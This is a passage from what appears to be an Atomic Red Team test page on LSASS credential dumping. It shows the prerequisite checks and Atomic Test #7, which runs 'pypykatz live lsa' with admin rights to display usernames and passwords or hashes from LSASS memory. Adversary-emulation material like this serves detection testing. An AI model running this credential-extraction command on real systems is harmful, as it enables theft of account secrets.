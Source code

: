 ##### Check Prereq Commands:
```powershell
cmd /c "if not exist #{input_file} (exit /b 1)"
```
##### Get Prereq Commands:
```powershell
Write-Host "Create the lsass dump manually using the steps in the previous test (Dump LSASS.exe Memory using Windows Task Manager)"
```




<br/>
<br/>

## Atomic Test #7 - LSASS read with pypykatz
Parses secrets hidden in the LSASS process with python. Similar to mimikatz's sekurlsa::

Python 3 must be installed, use the get_prereq_command's to meet the prerequisites for this test.

Successful execution of this test will display multiple usernames and passwords/hashes to the screen.

**Supported Platforms:** Windows


**auto_generated_guid:** c37bc535-5c62-4195-9cc3-0517673171d8






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
pypykatz live lsa
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Computer must have python 3 installed
##### Check Prereq Commands:
```cmd
py -3 --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "Python 3 must be installed manually"
```
##### Description: Computer must have pip installed
##### Check Prereq Commands:
```cmd
py -3 -m pip --version >nul 2>&1
exit /b %errorlevel%
```
##### Get Prereq Commands:
```cmd
echo "PIP must be installed manually"
```
##### Description: pypykatz must be installed and part of PATH
##### Check Prereq Commands:
```cmd
pypykatz -h >nul 2>&1
exit /b %errorlevel%
```